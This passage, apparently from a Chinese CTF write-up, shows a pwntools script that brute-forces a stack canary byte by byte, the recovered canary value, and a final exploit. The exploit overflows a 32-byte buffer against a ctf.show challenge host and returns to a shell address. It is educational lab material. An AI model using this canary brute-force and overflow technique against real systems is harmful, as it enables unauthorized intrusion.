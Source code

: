 ```python
            payload = b'A' * 32  # 填充 buf 数组
            payload += canary  # 已知的 canary 部分
            payload += p8(guess)  # 当前猜测的字节

            try:
                io.sendlineafter(b'>', b'100')
                io.sendafter(b'$ ', payload)
                response = io.recvline(timeout=2)
                io.close()
                if b'Canary Value Incorrect!' not in response:
                    canary += p8(guess)
                    print(
                        f"[+] Found byte {i + 1}: {hex(guess)} (ASCII: {chr(guess) if guess > 0x1f else chr(guess + 0x37)} )")
                    break
            except EOFError:
                io.close()
                continue


if __name__ == "__main__":
    brute_canary()
    print(f"\n[+] Global Canary (HEX): {canary.hex()}")
    print(f"[+] Global Canary (ASCII): {canary.decode('latin-1', errors='replace')}")
```

最终结果：

```python
[+] Global Canary (HEX): 33364421
[+] Global Canary (ASCII): 36D!
```

根据这个canary值编写最终的exp：

```python
from pwn import *
sh = remote("pwn.challenge.ctf.show", 28242)
bin_sh = 0x08048696
canary = b'\x33\x36\x44\x21'
payload = b'a'*(0x20) + canary + b'a'*(0x10) + p32(bin_sh)
#payload = b'a'*(0x20) + canary + p32(0x0)*4 + p32(bin_sh)
sh.sendline("1000")
sh.send(payload)
sh.interactive()
```

payload有两个需要注意的地方

1.因为用户输入的字节数一旦超过缓冲区大小（32字节），会导致缓冲区溢出，金丝雀值会检测到这种异常

所以payload中第一次填充数据只填入了0x20，而不是直接填入buf到栈底的长度0x30

然后接上爆破得出的canary值
